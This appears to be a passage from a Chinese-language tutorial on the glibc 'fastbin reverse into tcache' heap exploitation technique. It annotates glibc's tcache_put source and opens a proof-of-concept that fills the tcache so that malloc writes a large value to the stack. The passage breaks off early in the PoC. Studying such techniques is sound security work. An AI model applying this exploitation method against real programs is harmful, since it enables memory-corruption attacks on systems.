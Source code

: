 ```c
#endif
	      void *p = chunk2mem (victim);
	      alloc_perturb (p, bytes);
	      return p; //返回申请的victim
	    }
	}
    }
```

```c
/* Caller must ensure that we know tc_idx is valid and there's room
   for more chunks.  */
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx) //传入的tc_victim和tc_idx
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk); //获取free chunk的user data
  assert (tc_idx < TCACHE_MAX_BINS); //tc_idx一定小于TCACHE_MAX_BINS

  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache; //设置tc_victim的key标志位

  e->next = tcache->entries[tc_idx]; //设置tc_victim的next标志位
  tcache->entries[tc_idx] = e; //插入tcachebin
  ++(tcache->counts[tc_idx]); //对应的计数++
}
```

从上面两段代码中可以看出：

fastbin：chunk1->chunk2->chunk3<-0

则放入tcachebin中：chunk3->chunk2->chunk1<-0

## POC源码分析
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>

const size_t allocsize = 0x40;

int main(){
  setbuf(stdout, NULL);

  printf(
    "\n"
    "This attack is intended to have a similar effect to the unsorted_bin_attack,\n"
    "except it works with a small allocation size (allocsize <= 0x78).\n"
    "The goal is to set things up so that a call to malloc(allocsize) will write\n"
    "a large unsigned value to the stack.\n\n"
  );

  // Allocate 14 times so that we can free later.
  char* ptrs[14];
  size_t i;
  for (i = 0; i < 14; i++) {
    ptrs[i] = malloc(allocsize);
  }

  printf(
    "First we need to free(allocsize) at least 7 times to fill the tcache.\n"
    "(More than 7 times works fine too.)\n\n"
  );
```